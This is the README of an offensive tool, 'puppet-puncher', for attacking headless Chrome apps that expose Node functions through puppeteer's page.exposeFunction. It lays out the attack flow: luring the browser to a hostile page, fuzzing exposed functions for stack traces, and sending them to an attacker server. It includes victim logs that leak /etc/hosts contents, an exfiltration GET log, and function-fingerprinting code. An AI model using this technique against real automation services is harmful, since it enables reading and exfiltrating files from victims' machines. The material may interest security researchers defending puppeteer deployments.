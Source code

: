 # puppet-puncher

Attack headless chrome browsers which use `page.exposeFunction` in the `puppeteer` library.

## How to use

* Host your puppet-puncher webpage and an endpoint to exfiltrate data to
* Entice a headless chrome to visit your page
* Stack trace exfiltrated to your server
* Use stack trace to come up with targeted payload and host it
* Entice the headless chrome to visit your new page
* Profit

## Example vulnerable puppeteer

The code in `readfile.js` is an example vulnerable puppeteer app which exposes `fs.readFile` to any page it browses to. When it browses to our `puppet-puncher.html` page, the function is discovered.

Logs of the puppeteer (victim) process (`PAGE SAYS` denotes log messages from `puppet-puncher.html`):

```
$ node /app/puppet-puncher/readfile.js
PAGE SAYS Starting puppet-puncher
PAGE SAYS 'window.webkitStorageInfo' is deprecated. Please use 'navigator.webkitTemporaryStorage' or 'navigator.webkitPersistentStorage' instead.
PAGE SAYS Found punchable readfile
PAGE SAYS PUNCHED readfile! STACK: TypeError: Cannot convert object to primitive value
    at isUint32 (internal/validators.js:14:27)
    at Object.readFile (fs.js:287:22)
    at Promise (/app/puppet-puncher/readfile.js:15:10)
    at new Promise (<anonymous>)
    at page.exposeFunction (/app/puppet-puncher/readfile.js:14:12)
    at Page._onBindingCalled (/app/puppet-puncher/node_modules/puppeteer/lib/Page.js:542:56)
    at CDPSession.Page.client.on.event (/app/puppet-puncher/node_modules/puppeteer/lib/Page.js:136:54)
    at CDPSession.emit (events.js:197:13)
    at CDPSession._onMessage (/app/puppet-puncher/node_modules/puppeteer/lib/Connection.js:200:12)
    at Connection._onMessage (/app/puppet-puncher/node_modules/puppeteer/lib/Connection.js:112:17)
PAGE SAYS 127.0.0.1     localhost
...
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The full stack trace is exfiltrated to our server via an HTTP GET request (truncated below):

```
$ http-server
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:8000
Hit CTRL-C to stop the server
[Sun Apr 99 3019 29:29:49 GMT+0100 (GMT+01:00)] "GET /?x=WyJyZWFkZmlsZSIsIlR5cGVFcnJvcjogQ2Fubm90IGNvbnZlcnQgb2JqZWN0IHRvIHByaW1pdGl2ZSB2YWx1ZVxuICAgIGF...
```

The error in this case occurs when `fs.readFile` checks if the file path is a file descriptor.
The `x|0` part of the internal function `isUint32` works as follows:

```
> 1|0
1
> "hello"|0
0
> null|0
0
> ({})|0
0
> ({toString: () => console.log("HI")})|0
HI
0
> ({toString: null})|0
Uncaught TypeError: Cannot convert object to primitive value
```

We don't really care about the error though. From reading the stack trace, we know that the page contains a function exposed as `readfile` which passes the first argument to `fs.readFile` in the puppeteer process. We can then craft a page which abuses this knowledge to exfiltrate arbitrary files.


## Finding functions to attack

The `page.exposeFunction` puppeteer function creates a function with the following code. I'm not yet sure what wizardry sets `bindingName`, but we can search `window` for a function `f` where `f.toString()` looks like:

```javascript
(...args) => {
        const me = window[bindingName];
        let callbacks = me['callbacks'];
        if (!callbacks) {
          callbacks = new Map();
          me['callbacks'] = callbacks;
        }
        const seq = (me['lastSeq'] || 0) + 1;
        me['lastSeq'] = seq;
        const promise = new Promise((resolve, reject) => callbacks.set(seq, {resolve, reject}));
        binding(JSON.stringify({name: bindingName, seq, args}));
        return promise;
      }
```

## Getting information about the puppeteer process

Since you don't know what the function does, your best bet for getting a clue as to its purpose is to fuzz it with some junk data that will make it throw an exception with a juicy stack trace! An important limitation is that the arguments your page sends are passed to and from puppeteer via JSON roundtrip.

Exfiltration method is entirely up to you.


## What's with the <q>s?

This is to delay the `domContentLoaded` event. In this example, the puppeteer is `await`ing it. If we make it pause here, we have longer to play around before the page is killed. This only really important in the case where the function doesn't throw an error, or takes a long time to execute.

It turns out that, at least for me, `<q>` takes a longer time to load than most other elements. Odd!

It's entirely optional. You can also maybe delay the HTTP response stream.
